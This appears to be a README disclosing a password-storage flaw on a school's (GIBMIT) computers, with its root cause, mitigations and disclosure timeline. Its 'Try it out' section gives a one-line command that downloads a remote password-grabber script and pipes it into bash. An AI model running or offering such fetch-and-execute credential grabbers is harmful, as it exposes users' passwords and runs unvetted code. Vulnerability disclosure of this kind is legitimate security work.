 # PW Vulnerability

## Try it out
##### ```curl -sSL https://raw.githubusercontent.com/DanielRamp/SecurityAtGIBMIT/master/pw_grabber_poc.sh | bash```

<br/>

## Disclaimer
This is a poc demonstrating why you shouldn't use any important credentials to lock your gibm computer.
I take NO responsibility for any damage caused by the usage of this script.
Only use it on your own account and/or with consent.

## Description/Root Cause
GIBMIT stores your passwords insecurely.
Normally passwords on linux are stored hashed and only accessable by the root user under /etc/shadow.
GIBM stores them encoded on their filesystem (maybe to provide some custom single sign on?).
The passwords can be retrieved in plaintext by the logged in user and possibly by an administrator.
Also HID attacks could be used to extract the passwords in a quick second, without you noticing it.

## Am I affected?
Every account at GIBMIT is affected, students and teachers alike.

## Mitigations for you
- Don't reuse passwords, use a throwaway one!
- Lock your computer, not just your VM!

## A word about responsible disclosure.
The vulnerability has been reported on 06.02.2017 to the principal office and several teachers.
Current responsible disclosure policies define to keep a vulnerability private between 90 and 120 days after notifying the vendor.
Since there's no fix for over a year, this has become a matter of public interest, so you can protect yourself.
Again, I take no responsibility for your actions.
